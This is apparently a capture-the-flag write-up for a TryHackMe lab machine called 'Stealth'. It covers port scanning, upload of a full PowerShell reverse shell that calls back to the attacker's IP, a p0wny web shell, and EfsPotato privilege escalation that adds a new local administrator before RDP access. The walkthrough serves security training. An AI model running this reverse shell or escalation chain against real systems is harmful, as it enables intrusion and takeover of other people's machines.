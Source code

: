 # Stealth

## Machine Info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.8.5 -oN port_scan.txt

Nmap scan report for 10.10.8.5
Host is up (0.040s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-05T12:35:28+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HOSTEVASION
|   NetBIOS_Domain_Name: HOSTEVASION
|   NetBIOS_Computer_Name: HOSTEVASION
|   DNS_Domain_Name: HostEvasion
|   DNS_Computer_Name: HostEvasion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-05T12:34:48+00:00
| ssl-cert: Subject: commonName=HostEvasion
| Not valid before: 2025-08-04T12:31:38
|_Not valid after:  2026-02-03T12:31:38
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
8000/tcp  open  http          PHP cli server 5.5 or later
|_http-title: 404 Not Found
8080/tcp  open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp  open  ssl/http      Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Try to upload a ps1 with a reverse shell to understand what is blocked and what not.

<details>

<summary>ps1 payload</summary>

```powershell
do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.23.52.142', 13337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close

```

</details>

```bash
penelope
m
listeners add -i tun0 -p 13337
```

We got a shell without anything restrictions

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking inside the evader's desktop we can view this file:

```powershell
SHELL> more encodedflag
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
-----END CERTIFICATE-----


```

Decode this from base64 we obtain this:

{% code overflow="wrap" %}
```bash
echo "WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA=" | base64 -d                             

You can get the flag by visiting the link http://10.10.8.5:8000/asdasdadasdjakjdnsdfsdfs.php                                                                                                                    
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The file is a HoneyPot, try to follow the hint.

Go to Xampp uploads directory in the htdocs

```
cd C:\xampp\htdocs\uploads
rm log.txt
```

And now refresh the web page.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got the user flag.



## PrivEsc

WinPEAS was blocked by AV. We can try others script but we not found any interesting thing.

### p0wny shell

Uploading the more stable shell like p0wny shell we notice that we are more privilges

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### EFS potato

{% embed url="https://github.com/zcgonvh/EfsPotato" %}

{% code overflow="wrap" %}
```
wget https://raw.githubusercontent.com/zcgonvh/EfsPotato/refs/heads/master/EfsPotato.cs

python3 -m http.server 80
```
{% endcode %}

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">curl http://10.23.52.142/EfsPotato.cs -o EfsPotato.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

<strong>C:\Temp\EfsPotato.exe\ whoami
</strong>
# add new user in the administrators group
EfsPotato.exe "cmd.exe /c net user Antoadmin Password123! /add &#x26;&#x26; net localgroup Administrators Antoadmin /add"
</code></pre>

<figure><img src="../../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (396).png" alt=""><figcaption></figcaption></figure>

### RDP Access

```
xfreerdp3 /v:IP /u:Antoadmin /p:'Password123!'
```

<figure><img src="../../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

```
THM{101011_ADMIN_ACCESS}
```
